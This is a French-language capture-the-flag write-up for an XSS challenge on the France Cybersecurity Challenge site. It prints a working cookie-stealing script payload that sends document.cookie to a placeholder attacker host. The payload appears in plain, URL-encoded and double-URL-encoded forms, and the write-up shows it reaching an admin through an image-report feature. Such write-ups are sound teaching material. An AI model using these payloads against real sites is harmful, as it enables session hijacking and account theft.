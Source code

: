 # Gare au gorille

## Enoncé
J'ai construit un site sans prétention pour stocker ma collection de memes !

## Découverte
En naviguant sur le site, on trouve plusieurs choses : 
- l'url /flag correspondant au bouton "Ajouter un meme" qui n'est accesible que par l'admin
- une fonction de recherche par le paramètre /?search=
- une fonction de signaler certaines images à l'admin

## Réflexion
La construction de site présente laisse penser qu'on doit s'attendre à une XSS et éventuellement un vol de cookie. On teste donc le champ /?search= avec un payload POC :
`https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=<script>alert("XSS")</script>`
Et bingo, on obtient bien un pop-up JavaScript qui confirme notre hypothèse.

## Exploitation
On imagine donc qu'on doit voler le cookie de l'admin en lui envoyant un payload via la fonction de signalement d'image.
### Fabrication du payload
Après quelque recherches, on trouve facilement ce payload :

`<script>var i=new Image;i.src="http://[ATTACKINGIP]"+document.cookie;</script>`

On test donc le payload sur notre propre session avec le champ de recherche : 

    https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=<script>var i=new Image; i.src="http://[ATTACKINGIP]"+document.cookie;</script>

Problème : les caractères `;` et `+` ne sont pas bien interprétés.

### Résolution de l'encodage

On modifie le payload avec l'URLencoding :

    https%3A%2F%2Fgare-au-gorille.france-cybersecurity-challenge.fr%2F%3Fsearch%3D%3Cscript%3Evar%20i%3Dnew%20Image%3B%20i.src%3D%22http%3A%2F%2F[ATTACKINGIP]%22%2Bdocument.cookie%3B%3C%2Fscript%3E

L'exploit fonctionne bien sur notre session.

### Envoi du payload

Après plusieurs tentatives, le payload n'est pas exécuté côté admin. On suppose donc que l'URLencode est décodé avant d'être présenté à l'admin. L'essai suivant tombe sous le sens, DOUBLE URLencoding :

    https%253A%252F%252Fgare-au-gorille.france-cybersecurity-challenge.fr%252F%253Fsearch%253D%253Cscript%253Evar%2520i%253Dnew%2520Image%253B%2520i.src%253D%2522http%253A%252F%252F[ATTACKINGIP]%2522%252Bdocument.cookie%253B%253C%252Fscript%253E

Parfait, le cookie admin nous est renvoyé sur le serveur attaquant, plus qu'à modifier notre cookie de session et se diriger dans /flag pour résoudre le challenge.
